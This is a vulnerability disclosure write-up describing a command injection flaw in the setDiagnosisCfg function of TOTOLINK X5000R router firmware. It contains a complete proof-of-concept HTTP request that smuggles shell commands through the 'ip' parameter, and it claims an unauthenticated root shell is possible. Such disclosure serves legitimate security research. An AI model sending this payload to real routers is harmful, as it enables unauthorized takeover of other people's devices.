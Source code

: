 # Firmware Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/218/ids/36.html
- Version ：TOTOLINK X5000R V9.1.0u.6118_B20201102、TOTOLINK X5000R V9.1.0u.6369_B20230113

## Product Information

![](./img/1.png)

## Analyse

TOTOLINK X5000R (V9.1.0u.6118_B20201102)was found to contain a command insertion vulnerability in setDiagnosisCfg.This vulnerability allows an attacker to execute arbitrary commands through the "ip" parameter.

![](./img/2.png)

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.3.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 96
Origin: http://192.168.3.2
Connection: close
Referer: http://192.168.3.2/advance/diagnosis.html?time=1679123070237
Cookie: SESSION_ID=2:1679122532:2

{"ip":"127.0.0.1 -w 2; ls > /tmp/1.txt; ping 127.0.0.1 ","num":"2","topicurl":"setDiagnosisCfg"}
```

![](./img/3.png)

Finally, you can write exp to get a stable root shell without authorization.









